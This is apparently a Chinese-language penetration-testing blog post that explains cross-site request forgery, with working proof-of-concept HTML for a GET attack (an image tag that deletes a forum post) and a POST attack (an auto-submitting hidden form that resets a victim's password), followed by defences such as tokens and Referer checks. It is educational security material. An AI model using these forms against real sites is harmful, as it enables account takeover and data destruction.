 +++
date = "2016-06-28T09:21:34+08:00"
description = ""
draft = false
tags = ["csrf"]
title = "CSRF"
topics = ["Pentest"]

+++

### 0x00 概念
> &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;当你登陆某个网站时，通常浏览器与网站都会形成一个会话，在会话没有结束时你可以执行发表文章、发邮件、
删除文章等操作，若会话结束，你再操作的话会提示你会话已经结束，请重新登陆。  
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;CSRF就是：攻击者通过一些技术手段欺骗用户的<font color="FF0000">浏览器</font>去<font color="FF0000">访问</font>一个自己曾<font color="FF0000">认证过</font>的网站并<font color="FF0000">执行某些操作</font>。也可以说CSRF就是黑客利用受害者的Cookie骗取服务器的信任从而执行某些操作

### 0x01 利用
* 利用条件
    * 攻击者可以得知url的所有参数项并了解其含义
    * 诱导用户访问构造好的POC

* 利用地方
    * 操作是有意义的(比如:修改密码等)
    * 验证过于简单(参数固定、我们可以设置参数)

### 0x02 GET型CSRF攻击
> ```
若有论坛www.aa.com，论坛删除文章的操作是请求类似
http://www.aa.com/opt.php?id=135&act=del&name=Tom的链接
```
> ```
有用户A，他登陆了论坛，且有篇文章id为251，那么他的浏览器此时已经取得了论坛的信任
```
> ```
此时有hacker用户B，他构造了一个html为b.html，b.html内容如下：
<html>
<head>
    <title>test</title>
</head>
<body>
    <img src="http://www.aa.com/opt.php?id=251&act=del&name=A" />
</body>
</html>
将b.html放在他自己搭建的网站上，网址为http://www.bb.com/b.html
```
```
恶意用户B将链接http://www.bb.com/b.html通过qq发送给用户A，
诱使他访问，用户A一旦访问，他id为251的文章就会被删除
```

### 0x03 POST型CSRF攻击
> 若网站www.xx.com有让用户修改密码的功能，但验证过于简单，形如下图：
{{% fluid_img src="/img/post/csrf_post.png" alt="csrf_post利用.png" %}}
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>aa</title>
</head>
<body>
    <form action="http://172.23.10.200/index.php/User/Index/RegisterUpdate/id/286" method="post">
        昵称：<input type="text" name="password" id="password" class="form-control" value="xxxxx">
        用户名：<input type="text" name="password" id="password" class="form-control" value="xiaoming">
        密码：<input type="password" name="password" id="password" class="form-control" value="">
        确认密码：<input type="password" name="cpassword" id="conpassword" class="form-control" value="">
        <input type="submit" name="button" value="提交">
    </form>
</body>
</html>
```
此时我们就可以构造自动提交表单的xxxx.html，内容如下：
```html
<html>
<head>
    <title>aa</title>
</head>
<body onLoad="document.forms[0].submit()">
    <form action="http://172.23.10.200/index.php/User/Index/RegisterUpdate/id/286" method="post">
        <input type="hidden" name="password" id="password" value="666666">
        <input type="hidden" name="cpassword" id="conpassword" value="666666">
    </form>
</body>
</html>
```
然后将连接http://www.bb.com/xxxx.html 发送给用户,诱使他点击链接,一旦他点击,则密码就会被修改

### 0x04 防御：
* 对于修改密码的表单可以要求输入原密码  
* 二次确认(如删除用户、转账等重要操作弹窗要求用户确认)
* Token认证  
    * GET操作请求：可以在Cookie中存储Token  
    * POST操作请求：可以在form表单中添加一个隐藏的input标签，value值为Token
* 验证Referer